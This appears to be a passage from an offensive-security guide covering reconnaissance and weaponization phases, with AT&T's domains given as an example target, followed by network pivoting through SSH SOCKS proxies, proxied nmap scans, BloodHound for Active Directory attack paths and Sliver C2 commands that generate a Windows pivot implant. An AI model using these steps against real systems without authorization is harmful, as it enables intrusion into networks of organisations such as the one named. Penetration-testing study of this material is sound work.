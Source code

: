 #### Phase 2: Attack Surface Mapping
*Example: Targeting AT&T*
1. Discover all related domains (att.com, *.att.com)
2. Identify exposed services
3. Map internal network relationships

#### Phase 3: Weaponization
- Develop/select exploits for identified vulnerabilities
- Create tailored payloads
- Establish initial access points

### Key Considerations
- **Thoroughness**: Comprehensive recon enables precise targeting
- **Patience**: Quality reconnaissance takes time
- **Opportunity Spotting**: Look for "open windows" in defenses during mapping

## 7. Network Pivoting Fundamentals

### Basic SSH Pivoting
```bash
# Establish SOCKS proxy via SSH
ssh -D 8080 user@pivot_host

# If connection fails:
1. Edit /etc/ssh/sshd_config on target
2. Restart SSH service:
   systemctl restart sshd
```

### Practical Pivoting Setup
1. **RDP + SSH Forwarding**  
   - Forward SSH through RDP to VPS  
   - Configure Firefox to use SOCKS5 proxy (localhost:1080)

2. **Internal Network Scanning**  
   - Discover hosts via pivoted connection  
   - Service enumeration:  
     ```bash
     nmap -sT -p 80,443 --proxy socks5://localhost:1080 192.168.1.100
     ```
   - Banner grabbing for service identification

### Active Directory Environments
**BloodHound Setup:**
1. Install on attack machine
2. Collect data via SharpHound on Windows or Linux equivalent
3. Analyze attack paths and privilege escalation opportunities

### Sliver C2 Pivoting
```bash
# Set up listener
sliver > listener mtls --host 192.168.1.10

# Generate pivot payload
sliver > generate --mtls 192.168.1.10 --os windows --arch x64 --pivot

# Establish proxy tunnel
sliver > socks start
```

